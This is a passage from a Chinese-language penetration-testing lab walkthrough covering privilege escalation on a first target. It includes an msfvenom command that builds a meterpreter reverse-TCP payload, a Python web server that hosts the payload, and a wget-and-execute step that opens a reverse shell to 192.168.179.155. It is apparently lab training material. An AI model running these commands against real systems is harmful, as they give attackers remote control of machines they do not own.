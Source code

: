 ### 2.3 提权

内核是 x86，使用 mefvenom 生成一个可执行的 shell

```plain
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.179.155 lport=6789 -f elf -o shell.elf
```

生成完后，kali 使用 python 开启 http 服务

```plain
python -m SimpleHTTPServer 8080
```

[![](assets/1705981930-da7c330b5be516de8cb3d6a4a434df28.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143306-efa3909e-b826-1.png)

使用上面获取的 shell 下载可执行 shell，并执行

```plain
wget http://192.168.179.155:8080/shell.elf
./shell.elf
```

在执行之前，kail 需要先开启对 6789 的监听

[![](assets/1705981930-a19daaf3a5ccdd9812d896b68f17fc90.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143324-fa78f2d4-b826-1.png)

msf 收到反弹的 shell

## 3.攻击 Target2

### 3.1 信息收集
